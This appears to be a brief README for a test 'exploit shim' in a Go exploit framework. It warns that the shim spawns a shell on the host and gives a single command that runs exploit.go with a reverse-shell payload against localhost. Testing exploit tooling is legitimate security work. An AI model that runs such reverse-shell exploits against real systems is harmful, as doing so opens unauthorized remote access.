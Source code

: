 # Exploit shim

This is an example shim to test the payload interactions and just spawns a shell on the host. Obviously this can be bad, be aware.

Run your tests with of a built reverse shell payload:

```console
$ go run exploit.go -lhost 127.0.0.1 -lport 2222 -rhost 127.0.0.1 -rport 1337 -e -fll DEBUG -ell DEBUG -payload ../payload/reverse_shell/reverse_shell
```
